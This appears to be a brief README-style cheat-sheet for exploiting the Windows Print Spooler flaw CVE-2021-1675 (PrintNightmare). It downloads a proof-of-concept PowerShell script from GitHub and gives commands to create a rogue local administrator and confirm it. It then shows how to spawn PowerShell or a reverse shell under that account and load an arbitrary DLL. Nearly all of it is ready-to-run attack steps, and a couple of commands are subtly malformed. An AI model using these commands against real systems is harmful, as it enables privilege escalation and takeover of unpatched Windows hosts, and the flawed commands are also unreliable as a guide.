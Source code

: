 # CVE-2021-1675 

Project https://github.com/calebstewart/CVE-2021-1675

`wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1`

`curl https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -o CVE-2021-1675.ps1`

In Powershell,

`Import-Module .\ CVE-2021-1675.ps1`

Create a new admin user

`Invoke-Nightmare -NewUser "<username to create >" -NewPassword <password for that new user> DriverName "PrintMe"`
  
`Invoke-Nightmare -NewUser "hacker" -NewPassword "password1234" DriverName "PrintMe"`

Check if user was added

`net localgroup administrators`

Run powershell as SYSTEM

`runas /user:hacker powershell.exe`
 
 or reverse shell
 
`runas /user:hacker shell.exe`

 or invoke dll
 
`Invoke-Nightmare -DLL "C:\absolute\path\to\your\shell.dll"`
  
### References

https://www.hackercoolmagazine.com/printnightmare-privilege-escalation-with-powershell/
